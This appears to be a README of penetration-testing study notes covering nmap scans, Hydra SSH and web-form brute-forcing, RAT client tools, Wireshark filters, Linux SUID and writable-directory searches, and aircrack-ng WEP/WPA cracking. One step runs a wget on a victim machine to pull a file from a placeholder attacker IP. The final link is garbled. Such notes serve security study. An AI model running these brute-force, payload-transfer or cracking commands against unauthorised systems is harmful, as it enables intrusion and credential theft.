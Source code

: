 # OffSec-Notes
Repository created for keeping notes on various topics, vulnerabilities and tools useful in penetration testing. 

# Reconnaissance

### Some Common Ports

 Port     | Service  | Protocol          |
| --------|:--------:| -----------------:|
| 21      | FTP      |    TCP, UDP, SCTP |
| 22      | SSH      |    TCP, UDP, SCTP |
| 137     | NetBIOS  |    TCP, UDP       |
| 161     | SNMP     |    UDP            |
| 445     | SMB      |    TCP, UDP       |
| 3389    | RDP      |    TCP            |

<details open>
<summary>nmap</summary>

```sudo nmap -sn 192.168.0.0/24``` - Check for hosts only, disable port scan (-sn).

```sudo nmap -sn --exclude [IP] 192.168.0.0/24``` - Check for hosts only, disable port scan (-sn), exclude a specific url (--exclude).

```nmap -sT [IP]``` - Use TCP connect scan (-sT) if not root/sudo user. Only option for non sudoers.

```sudo nmap [IP] ``` -  By default nmap uses TCP SYN scan (-sS), but this should be used only from root/sudo user.

```sudo nmap -sV -O -v [IP] -p- -oN [Filename.txt]``` - Default SYN scan with enabled version detection (-sV) and OS detection (-O). Additional flags - verbose mode (-v), all ports (-p-), output to .txt file (-oN). 

```sudo nmap -A [IP]``` - Default SYN scan with enabled OS detection, version detection, script scanning, and traceroute (-A).

```sudo nmap --script http-methods [IP]``` - Default SYN scan with specific script (--script). As an example script *http-methods* (enumerates allowed HTTP methods) is used.

```sudo nmap -sU [IP]``` - Performs UDP scan (-sU).

```-n``` - Tells Nmap to never do reverse DNS resolution on the active IP addresses it finds. Since DNS can be slow even with Nmap's built-in parallel stub resolver, this option reduces scanning times.

Useful nmap scripts:

 Script   | Service  | Description |
|:--------|:--------|:-----------|
| smb-os-discovery.nse    | SMB (445)  | Enumerate OS, domain name,etc. |
| smb-enum-users.nse      | SMB (445)  | Used to enumerate all users on remote Windows system using SAMR enumeration and LSA bruteforcing. |
| smb-enum-shares.nse     | SMB (445)  | SMB shares. |
| nbstat.nse     | NetBIOS (137)  | NetBIOS enumeration, use -sU for UDP. |

</details>

# Brute-force
<details open>
<summary>Hydra</summary>

```sudo hydra -l <username> -P <wordlist> [URL] ssh``` - Basic Hydra command for brute-forcing ssh password. Works similarly with other protocols such as FTP.

```sudo hydra -l <username> -P <wordlist> [base_URL] http-post-form "<path>:<login_credentials>:<invalid_response>"``` - Hydra command for HTTP POST form. Path need to be specified seperately from base URL.

</details>

# Malware Threats

<details>
<summary>RAT's</summary>

You need to target the right IP and port number (try default first).
You need to use the right tool from the available.

Example tools to establish a connection to a RAT:
- njRAT *
- MoSucker
- ProRat
- Theef *
- HTTP RAT

</details>

<details>
<summary>Malware Analysis Tools</summary>

https://www.hybrid-analysis.com/ - Online tool.

**DIE (Detect it Easy)** - Scan and analyze .elf files.

**PE Explorer** - Find entry point address.

</details>

# Traffic Sniffing
<details open>
<summary>Wireshark</summary>

```tcp.flags.syn==1``` - Filter apply example, this one searches for SYN packets.

Follow streams to check for interesting data. Rightclick on packet -> Follow -> TCP Stream (can be other protocols).

To check for files in the conversations use export option. File -> Export -> HTTP (can be other protocol) -> sort by content-type to see if there are any .txt files for example.

**To followup on something like a DoS or DDoS attack go into Statistics -> Conversations and sort by packet count or bytes sent.**

![image](https://github.com/MaxLazerhawk/OffSec-Notes/assets/53828427/b0417cc6-a20b-450a-bce0-4588031e210e)


### View capture file properties to look for comments.
![image](https://github.com/MaxLazerhawk/OffSec-Notes/assets/53828427/39f702e0-c213-457b-9695-cb336a4488b9)

**IOT** ```mqtt``` to filter mqtt trafic. Publish message might be important.

</details>

# Transfering Files

```python3 -m http.server 9000``` - Set up HTTP server on attacjubg machine.

```wget http://[ATTACKING_IP]:9000/[filename]``` - Use on victim machine to download.

OR use SCP, SFTP or FTP protocols.

```scp /path/to/local/file.txt <user>@$IP:$PORT:/path/to/remote/``` - SCP file transfer example.

# Finding Files on Linux

```find . -name flag1.txt``` - find the file named “flag1.txt” in the current directory.

```find /home -name flag1.txt``` - find the file names “flag1.txt” in the /home directory.

```find / -type d -name config``` - find the directory named config under “/”.

```find / -type f -perm 0777``` - find files with the 777 permissions (files readable, writable, and executable by all users).

```find / -perm a=x``` - find executable files.

```find /home -user frank``` - find all files for user “frank” under “/home”.

```find / -mtime 10``` - find files that were modified in the last 10 days.

```find / -atime 10``` - find files that were accessed in the last 10 day.

```find / -cmin -60``` - find files changed within the last hour (60 minutes).

```find / -amin -60``` - find files accesses within the last hour (60 minutes).

```find / -size 50M``` - find files with a 50 MB size.

------
    
```find / -writable -type d 2>/dev/null``` - Find world-writeable folders.

```find / -perm -222 -type d 2>/dev/null``` - Find world-writeable folders.

```find / -perm -o w -type d 2>/dev/null``` - Find world-writeable folders.

------

```find / -perm -o x -type d 2>/dev/null``` - Find world-executable folders.

------

```find / -perm -u=s -type f 2>/dev/null``` - Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user. 



# Wireless Attacks
<details>
<summary>aircrack-ng</summary>
Used to crack .cap files. WEP, WPA/WPA2 wireless networks.

```aircrack-ng [filename].cap```

- Works for WEP.
- If the capture file has sufficient packets aircrack will be able to crack it.

```aircrack-ng [filename].cap -w [file]``` 

- Works for WPA.
- Dictionary added (-w).

</details>

# Useful Links

### Notes:

https://github.com/infovault-Ytube/CEH-Practical-Notes

https://github.com/CyberSecurityUP/Guide-CEH-Practical-Master

https://github.com/TheCyberpunker/CEH-Practical-Notes

https://chirag-singla.notion.site/chirag-singla/CEH-Practical-Preparation-7f2b77651cd144e8872f2f5a30155052

https://ceh-practical.cavementech.com/

https://infosecwriteups.com/privileges-escalation-techniques-basic-to-advanced-in-linux-973cb62cbe8d

### Tool Documentation:

https://github.com/horsicq/Detect-It-Easy

### Videos

https://www.youtube.com/watch?v=VuIYNxazbN0&list=PLZEA2EJpqSWfouVNPkl37AWEVCj6A2mdz&index=9

https://www.youtube.com/watch?v=4JzLg7wjHm8&list=PL-Fa25Pu8l6wV1Se-bPY-Onc6t_mUTZHW

https://www.youtube.com/watch?v=`x31mz'|F='op!'!jmA|
